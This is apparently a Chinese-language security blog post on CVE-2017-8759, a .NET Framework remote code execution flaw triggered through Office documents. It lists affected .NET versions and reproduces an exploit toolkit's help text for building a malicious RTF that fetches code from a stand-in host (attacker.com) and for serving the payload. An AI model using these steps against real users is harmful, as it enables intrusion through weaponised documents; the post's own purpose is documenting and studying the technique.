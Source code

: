 
---
layout:     post
title:      APT常用文档漏洞--CVE-2017-8759
subtitle:   CVE-2017-8759
date:       2018-11-05
author:     DC
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - CVE-2017-8759
    - RCE
    - VUL
    - APT
---



# CVE-2017-8759

总结之前做过的APT常见利用手法  [开源文档1](https://github.com/Lz1y/CVE-2017-8759)  [2](https://github.com/bhdresh/CVE-2017-8759)  [3](https://referencesource.microsoft.com/#System.Runtime.Remoting/metadata/wsdlparser.cs,1bd2c5d8fcea7a6b)

#### 漏洞简介

在Offcie文档中嵌入新的Moniker对象，利用的是.net库漏洞，在Office文档中加载执行远程的恶意.NET代码，原因是.NET Framework一个换行符处理失误，该漏洞影响所有主流的.NETFramework版本。由于主流的windows操作系统都默认内置了.net框架，黑客通过office文档嵌入远程的恶意.net代码进行攻击。

影响范围：windows office 用户

```
Microsoft .NET Framework 4.6.2
Microsoft .NET Framework 4.6.1
Microsoft .NET Framework 3.5.1
Microsoft .NET Framework 4.7
Microsoft .NET Framework 4.6
Microsoft .NET Framework 4.5.2
Microsoft .NET Framework 3.5
Microsoft .NET Framework 2.0 SP2 
```

#### 漏洞利用方法

用的是开源1 2 提供的工具list

```python
# python cve-2017-8759_toolkit.py -h
This is a handy toolkit to exploit CVE-2017-8759 (Microsoft .NET Framework RCE)
Modes:
-M gen                                          Generate Malicious file only
     Generate malicious RTF file:
      -w <Filename.rtf>                   Name of malicious RTF file (Share this file with victim).
      -u <http://attacker.com/test.txt>   Path of remote txt file. Normally, this should be a domain or IP where this                                          tool is running.                                         For example, http://attackerip.com/test.txt (This URL will be included in 	                                              malicious RTF file and will be requested once victim will open malicious RTF file.

				      
-M exp                                          Start exploitation mode

     Exploitation:
  
      -p <TCP port:Default 80>            Local port number.

```